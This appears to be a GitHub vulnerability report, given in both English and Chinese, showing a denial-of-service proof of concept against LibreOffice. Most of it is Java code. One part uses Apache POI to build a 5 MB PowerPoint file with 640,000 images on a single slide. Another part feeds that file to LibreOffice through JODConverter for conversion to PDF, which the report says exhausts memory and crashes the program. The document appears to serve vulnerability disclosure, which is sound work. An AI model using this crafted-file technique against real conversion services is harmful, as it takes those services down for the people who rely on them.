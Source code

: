 1. Generate malicious ppt files, using Java's POI plugin to generate them
Produce a PowerPoint file with only one slide through the POI plugin, containing a total of 640000 images of 800 * 800，The ppt file size is 5 mb

The code is as follows：
```
public class PowerPointUtil {
    private static final int NUM =800;
    public static void main(String[] args) {
        String path="E:\\office\\test.pptx";
        try {
            createPPT(path);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    public static void createPPT(String path) throws IOException {
        XMLSlideShow ppt = new XMLSlideShow();
        XSLFSlide slide = ppt.createSlide();
        byte[] bt = FileUtils.readFileToByteArray(new File("E:\\office\\test.png"));

        for (int i = 0; i < NUM; i++) {
            for (int j = 0; j < NUM; j++) {
                XSLFPictureData pictureData = ppt.addPicture(bt, PictureData.PictureType.PNG);
                XSLFPictureShape pic = slide.createPicture(pictureData);
                pic.setAnchor(new Rectangle(i, j, 50, 50));
            }
        }
        ppt.write(new FileOutputStream(path));
    }
}
```

2、Operate libreoffice through the org. jdconverter dependency package, and initialize the configuration as follows

The code is as follows：
```
public class OfficeManagerInstance {
    private static OfficeManager INSTANCE = null;
    public static synchronized void start() {
        officeManagerStart();
    }
    public static synchronized void stop() {
        try {
            INSTANCE.stop();
        } catch (OfficeException e) {
            e.printStackTrace();
        }
    }
    public static void init() {

            LocalOfficeManager.Builder builder = LocalOfficeManager.builder().install();
            builder.officeHome("E:\\libreOffice\\");
            builder.portNumbers(8098);
            builder.taskExecutionTimeout(5 * 1000 * 60); // minute
            builder.taskQueueTimeout(10 * 1000 * 60 * 60); // hour

            INSTANCE = builder.build();
            officeManagerStart();

    }
    private static void officeManagerStart() {
        if (INSTANCE.isRunning()) {
            return;
        }
        try {
            INSTANCE.start();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
3、Finally, call the OfficeManager to execute the operation of converting ppt to pdf

The code is as follows：
```
public class LibreOfficeUtil {
    public static void main(String[] args) {
        String pptPath="E:\\office\\test.pptx";
        String pdfPath="E:\\office\\test.pdf";

        OfficeManagerInstance.init();
        OfficeManagerInstance.start();

        try {
            JodConverter.convert(new File(pptPath)).to(new File(pdfPath)).execute();
        } catch (OfficeException e) {
            e.printStackTrace();
        }finally {
            OfficeManagerInstance.stop();
        }
    }
}
```
4、Looking at the memory usage situation, it can be found that only a 5m sized ppt file is needed to make libreoffice consume a large amount of memory on the machine. Afterwards, the program crashes, resulting in DOS issues

![RS0_6I){_MC}D)``}36A0RC](https://github.com/bzdxtdlsd/test1/assets/58172556/d5210e71-a12c-4d98-a6e8-9d9322f9949e)


1、生成恶意的 ppt 文件，这里采用 java 的 poi 插件去生成
通过 poi 插件，生产一个只有一张幻灯片的 ppt 文件，其中含有 800*800 共 64 万张图片，ppt 文件大小为 5 mb

代码如下：

```
public class PowerPointUtil {
    private static final int NUM =800;
    public static void main(String[] args) {
        String path="E:\\office\\test.pptx";
        try {
            createPPT(path);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    public static void createPPT(String path) throws IOException {
        XMLSlideShow ppt = new XMLSlideShow();
        XSLFSlide slide = ppt.createSlide();
        byte[] bt = FileUtils.readFileToByteArray(new File("E:\\office\\test.png"));

        for (int i = 0; i < NUM; i++) {
            for (int j = 0; j < NUM; j++) {
                XSLFPictureData pictureData = ppt.addPicture(bt, PictureData.PictureType.PNG);
                XSLFPictureShape pic = slide.createPicture(pictureData);
                pic.setAnchor(new Rectangle(i, j, 50, 50));
            }
        }
        ppt.write(new FileOutputStream(path));
    }
}
```

2、通过 org.jodconverter 依赖包操作 libreoffice，初始化配置如下

代码片段：

```
public class OfficeManagerInstance {
    private static OfficeManager INSTANCE = null;
    public static synchronized void start() {
        officeManagerStart();
    }
    public static synchronized void stop() {
        try {
            INSTANCE.stop();
        } catch (OfficeException e) {
            e.printStackTrace();
        }
    }
    public static void init() {

            LocalOfficeManager.Builder builder = LocalOfficeManager.builder().install();
            builder.officeHome("E:\\libreOffice\\");
            builder.portNumbers(8098);
            builder.taskExecutionTimeout(5 * 1000 * 60); // minute
            builder.taskQueueTimeout(10 * 1000 * 60 * 60); // hour

            INSTANCE = builder.build();
            officeManagerStart();

    }
    private static void officeManagerStart() {
        if (INSTANCE.isRunning()) {
            return;
        }
        try {
            INSTANCE.start();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

3、最后调用 OfficeManager 去执行 ppt 转 pdf 的操作

代码如下：

```
public class LibreOfficeUtil {
    public static void main(String[] args) {
        String pptPath="E:\\office\\test.pptx";
        String pdfPath="E:\\office\\test.pdf";

        OfficeManagerInstance.init();
        OfficeManagerInstance.start();

        try {
            JodConverter.convert(new File(pptPath)).to(new File(pdfPath)).execute();
        } catch (OfficeException e) {
            e.printStackTrace();
        }finally {
            OfficeManagerInstance.stop();
        }
    }
}
```

4、查看内存占用情况，可以发现只需要 5m 大小的 ppt 文件就可以使 libreoffice 占用机器大量内存，之后程序崩溃，产生 DOS 问题

![RS0_6I){_MC}D)``}36A0RC](https://github.com/bzdxtdlsd/test1/assets/58172556/8a911d64-e18d-4d4b-8b36-8537307b93e7)

